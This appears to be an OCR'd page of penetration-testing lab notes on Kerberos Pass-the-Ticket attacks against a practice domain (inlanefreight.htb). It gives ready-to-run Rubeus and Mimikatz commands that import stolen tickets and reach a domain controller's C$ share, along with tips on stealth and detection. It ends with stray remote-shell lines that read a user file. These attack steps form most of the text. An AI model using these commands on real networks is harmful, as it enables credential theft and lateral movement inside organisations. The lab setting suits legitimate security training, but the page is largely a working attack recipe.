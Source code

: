 #### Key Advantages
- **No admin privileges required** (unlike Mimikatz)
- **Base64 output** for easy manipulation
- **Multiple encryption types** supported
- **Stealth operation** - no new processes

**Security Note**: Using RC4 instead of AES256 may trigger "encryption downgrade" detection in modern domains.

---

## 🎫 Pass the Ticket (PtT) Attacks

### 1. Rubeus Pass the Ticket

#### Direct Ticket Import with /ptt
```cmd
# Request TGT and immediately import to current session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt

# Result: "Ticket successfully imported!"
```

#### Import .kirbi File
```cmd
# Import ticket from file
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

# Verify access
dir \\DC01.inlanefreight.htb\c$
```

#### Import Base64 Ticket
```cmd
# Convert .kirbi to Base64 (PowerShell)
[Convert]::ToBase64String([IO.File]::ReadAllBytes("ticket.kirbi"))

# Import Base64 ticket
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA...
```

### 2. Mimikatz Pass the Ticket

#### Import .kirbi File
```cmd
mimikatz.exe
privilege::debug

# Import ticket into current session
kerberos::ptt "C:\path\to\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

# Result: * File: 'ticket.kirbi': OK

# Test access
dir \\DC01.inlanefreight.htb\c$
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> cat C:\john\john.txt